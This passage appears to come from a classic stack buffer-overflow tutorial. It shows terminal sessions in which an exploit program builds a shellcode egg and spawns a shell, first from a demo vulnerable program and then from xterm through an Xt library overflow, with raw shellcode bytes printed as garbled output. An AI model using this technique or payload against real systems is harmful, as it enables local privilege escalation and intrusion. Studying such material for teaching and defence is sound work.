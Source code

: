 	[aleph1]$ ./exploit3 612
	Using address: 0xbffffdb4
	[aleph1]$ ./vulnerable $EGG
	$

Whoa!  First try!  This change has improved our chances a hundredfold. 
Let's try it now on a real case of a buffer overflow.  We'll use for our
demonstration the buffer overflow on the Xt library.  For our example, we'll 
use xterm (all programs linked with the Xt library are vulnerable). You must
be running an X server and allow connections to it from the localhost.  Set
your DISPLAY variable accordingly.

	[aleph1]$ export DISPLAY=:0.0
	[aleph1]$ ./exploit3 1124
	Using address: 0xbffffdb4
	[aleph1]$ /usr/X11R6/bin/xterm -fg $EGG
	Warning: Color name "�^1�FF
                           �
                            �V

	�1��@������/bin/sh���������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������








	���������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������








	��������������������������������������������������������������
	^C
	[aleph1]$ exit
	[aleph1]$ ./exploit3 2148 100
	Using address: 0xbffffd48
	[aleph1]$ /usr/X11R6/bin/xterm -fg $EGG
	Warning: Color name "�^1�FF
                           �
                            �V

	�1��@������/bin/sh���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H�








	��H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H
